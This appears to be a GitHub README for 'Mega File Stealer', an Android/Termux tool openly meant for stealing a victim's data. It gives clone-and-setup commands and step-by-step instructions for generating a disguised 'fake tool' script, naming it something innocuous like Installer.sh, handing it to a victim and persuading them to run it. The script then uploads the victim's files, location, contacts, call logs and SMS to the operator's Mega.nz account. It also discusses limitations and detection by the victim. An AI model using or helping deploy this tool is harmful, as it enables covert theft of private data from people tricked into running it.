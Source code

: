 # Mega File Stealer [![Version](https://img.shields.io/badge/version-2.2-blue)](https://github.com/ZechBron)

[![Author](https://img.shields.io/badge/Author-Zech%20Bron-red?style=for-the-badge)](https://github.com/ZechBron)

## Features
- Steal Files
- Info.txt
   - Devive Info
   - List of Apps
   - Directories and Files Tree
   - Location (Longitude and Latitude - Google Maps) *
   - Contact List *
   - Call Logs or Call History *
   - SMS List **

## Installation and Setup:
> pkg install git -y

> git clone https://github.com/ZechBron/Mega-File-Stealer

> cd Mega-File-Stealer

> bash setup.sh

### To Update:
> bash update.sh

## To Run:
> python mega-file-stealer.py

## How To Use:
1. Create an account in Mega.nz
2. Run my program and input your meganz username, email, password.
3. Input also the name of fake tool of your choice. 
   Example:
      [Z] Enter Fake Toolname: Installer
4. Now the script in your storage by typing: cp fake-tool-name.sh /storage/emulated/0 or cp fake-tool-name.sh /sdcard
5. Now browse your file manager and find the file of your fake tool and give it to your victim.
   Example:
      If you enter 'Installer' as fake tool name. Find 'Installer.sh' and give it to your victim.
5. After you gave it to your victim. Ask your victim to run it by making your victim type in his/her termux: bash faketoolname.sh
   Example
     If you enter Installer, then you have find Installer.sh ask your victim to type: bash Installer.sh


## Disadvantage in Limitations
### In INFO.txt
- Have you seen the askterisk in features? You can get your victim's location etc... But there is a limitation. (Those who have askterisk) Please make sure your victim have termux api app.
- In termux api. Reading Sms is no longer permitted by google play. (double askterisk)

### In File Stealer
- Useless files like any dot files (.files), cache will be included. Sadly I don't know how to fix this.
- Everything depends on your victim's internet connection. 
- If your victim is smart enough. Your victim will know. Well it depends. I have put "--disable previews" and I don't know how to fix the others.
